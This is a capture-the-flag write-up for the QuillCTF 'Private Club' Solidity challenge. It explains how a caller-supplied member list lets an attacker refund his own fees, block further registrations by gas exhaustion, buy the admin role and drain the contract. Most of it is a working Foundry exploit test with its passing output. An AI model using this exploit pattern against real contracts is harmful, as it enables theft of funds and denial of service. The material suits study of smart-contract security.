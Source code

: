 # QuillCTF : Private Club

## Object of CTF
In this CTF hacker is given 10 ethers and he asked to (1) become member of club, (2) block further registeration by exhausting gas Limit and (3) Withdraw all ethers from private club.

## Vulnerability Of Private Club Smart Contract
Vulnerability of Smart Contract lies in the fact that it's allowing users to send the list of members along with the transaction.

    function becomeMember(
        address[] calldata _members
    ) external payable nonReentrant {
    
So this should be list of users who are already members of club and new user will also have to send ethers equal to the number of members so that each member can get 1 ether on your admission. Now of course, hacker can send an array of with his own address. The length of this array is ofcourse going to be equal to total number of members. This way during the transaction all Eths will come back to hacker's own address during transaction. Also hacker can do it, again and again for **10 - totalNumberOfMembers**. This will exhaust all block gas and future registrations wont be possible.

Since, hacker has not yet spent any Ethers and still have 10 ETHs, he can use it to buy admin role and withdraw all tokens.

## Proof Of Concept
### Foundry Test


    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    import "forge-std/Test.sol";
    import "../src/PrivateClub.sol";
    
    contract Hack is Test {
        PrivateClub club;
    
        address clubAdmin = makeAddr("clubAdmin");
        address adminFriend = makeAddr("adminFriend");
        address user2 = makeAddr("user2");
        address user3 = makeAddr("user3");
        address user4 = makeAddr("user4");
        address hacker = makeAddr("hacker");
        uint blockGasLimit = 120000;
    
        function setUp() public {
            vm.deal(clubAdmin, 100 ether);
            vm.deal(hacker, 10 ether);
            vm.deal(user2, 10 ether);
            vm.deal(user3, 10 ether);
            vm.deal(user4, 10 ether);
            vm.startPrank(clubAdmin);
            club = new PrivateClub();
            club.setRegisterEndDate(block.timestamp + 5 days);
            club.addMemberByAdmin(adminFriend);
            address(club).call{value: 100 ether}("");
            vm.stopPrank();
            vm.startPrank(user2);
            address[] memory mForUser2 = new address[](1);
            mForUser2[0] = adminFriend;
            club.becomeMember{value: 1 ether}(mForUser2);
            vm.stopPrank();
            vm.startPrank(user3);
            address[] memory mForUser3 = new address[](2);
            mForUser3[0] = adminFriend;
            mForUser3[1] = user2;
            club.becomeMember{value: 2 ether}(mForUser3);
            vm.stopPrank();
        }
    
        function test_attack() public {
            vm.startPrank(hacker);
            // task1: become member of the club and
            // block future registrations (reason: out of gas - block gas limit)
            // solution:
    
            uint roomForNewMembers = 10-club.membersCount();
    
            for (uint x = 0; x < roomForNewMembers; x++) {
                address[] memory mForHacker = new address[](club.membersCount());
                for (uint i = 0; i < club.membersCount(); i++) {
                    mForHacker[i] = hacker;
                }
                uint ethForHacker = mForHacker.length * 1 ether;
                club.becomeMember{value: ethForHacker}(mForHacker);
            }
    
            vm.stopPrank();
            // check - hacker is member
            assertTrue(club.members(hacker));
    
    
            // check - user4 can not become member - blockGasLimit
            vm.startPrank(user4);
            address[] memory mForUser4 = new address[](club.membersCount());
            for (uint i = 0; i < club.membersCount(); i++) {
                mForUser4[i] = club.members_(i);
            }
            uint etherAmount = mForUser4.length * 1 ether;
            uint gasleftbeforeTxStart = gasleft();
            club.becomeMember{value: etherAmount}(mForUser4);
            uint gasleftAfterTxStart = gasleft();
    
            assertGt(gasleftbeforeTxStart - gasleftAfterTxStart, blockGasLimit);
            vm.stopPrank();
    
    
            vm.startPrank(hacker);
            // task2: buy admin role and withdraw all ether from the club
            // solution:
    
    
            club.buyAdminRole{value: 10 ether}(hacker);
            club.adminWithdraw(hacker, address(club).balance);
    
            // check - hacker is owner of club
            assertEq(club.owner(), hacker);
            assertGt(hacker.balance, 110000000000000000000 - 1);
        }
    }

	

### Foundry test output
	$ forge test --match-path test/AttackPrivateClub.t.sol
    [⠒] Compiling...
    No files changed, compilation skipped
    
    Running 1 test for test/AttackPrivateClub.t.sol:Hack
    [PASS] test_attack() (gas: 842941)
    Test result: ok. 1 passed; 0 failed; finished in 20.84ms
